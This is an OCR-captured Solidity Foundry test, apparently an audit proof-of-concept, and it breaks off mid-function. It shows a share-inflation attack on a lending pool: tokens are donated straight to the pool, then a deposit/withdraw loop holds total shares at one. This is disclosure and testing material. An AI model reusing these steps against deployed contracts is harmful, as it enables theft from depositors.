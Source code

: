 ## Code Snippet
```solidity
function testInternalDepoisitBug(uint96 assets) public {
        vm.assume(assets > 0);
        
        // address notPositionManager = makeAddr("notPositionManager");
        
        vm.startPrank(user);

        asset1.mint(user, 50_000 ether);
        asset1.approve(address(pool), 50_000 ether);

        pool.deposit(linearRatePool, 1 ether, user);
        
        vm.startPrank(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY));
        asset1.mint(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY), 50_000 ether);
        console2.log("balance",asset1.balanceOf(registry.addressFor(SENTIMENT_POSITION_MANAGER_KEY)));
        pool.borrow(linearRatePool, user, 1e16 );

        


        vm.warp(block.timestamp + 10 seconds);
        vm.roll(block.number + 100);


    
        uint256 borrowed = pool.getBorrowsOf(linearRatePool, user);
        pool.repay(linearRatePool,user, borrowed);

        
        vm.startPrank(user);
        uint256 asset_to_withdraw = pool.getAssetsOf(linearRatePool, user);

        // able to transfer because the withdraw function is calculating the total balance using the balanceOf(address(this))
        asset1.transfer(address(pool), 10000003000000001);
        asset1.transfer(address(pool), 200496896);
        

        pool.withdraw(linearRatePool, asset_to_withdraw-2, user, user);
        (,,,,,,,,,uint256 totalDepositAssets,uint256 totalDepositShares) = pool.poolDataFor(linearRatePool);

        

        for(uint8 i = 1; i < 75; i++){
            console2.log("loop", 2**i+1);
            pool.deposit(linearRatePool, 2**i+1 , user);
            // recived shares must be 1 share

            
            pool.withdraw(linearRatePool,1,user,user);
            (,,,,,,,,, totalDepositAssets, totalDepositShares) = pool.poolDataFor(linearRatePool);
            
           

            require(totalDepositShares == 1, "sharesReceived is not one as expected");


        }
        uint256 attackerTotalDepositAssets = totalDepositAssets;
```